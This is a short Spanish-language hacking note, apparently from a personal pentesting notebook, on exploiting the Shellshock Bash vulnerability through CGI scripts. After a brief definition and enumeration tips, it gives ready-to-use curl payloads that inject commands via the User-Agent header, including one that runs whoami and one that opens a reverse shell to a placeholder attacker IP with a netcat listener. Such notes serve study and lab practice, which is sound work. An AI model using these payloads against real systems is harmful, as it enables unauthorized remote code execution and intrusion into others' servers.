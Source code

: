 #ShellShok #OWASP #Explotacion 

#### Definición
>La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Durante la enumeración de la pagina web con herramientas como [[GOBUSTER]] hacemos una enumeración de directorios, si se encuentra u `/cgi-bin/` es una posible señal de ShellShock.

Podemos volver a enumerar la web apuntando a ese directorio y filtrando por extensiones `.pl, .sg, .cgi`

Con los datos que obtengamos navegamos a ese archivo, si vemos que es una pagina dinámica que se actualiza cada cierto tiempo como por ejemplo un `/status` es que se esta ejecutando un comando a tiempo real.

La forma de comprometerlo seria con un [[CURL]]:
`curl -s <IP_Objetivo/cgi-bin/status -H "User-Agent: () { :; }; echo; /usr/bin/whoami"`

Si no nos reporta nada metemos un `echo;` de nuevo

Para obtener una `reverseShell` usaremos lo siguiente después de probar antes con demás comandos:
`curl -s <IP_Objetivo/cgi-bin/status -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<Ip_Atacante/puerto> 0>&1'"

Poniéndonos en escucha antes de ejecutarlo con [[NETCAT]]
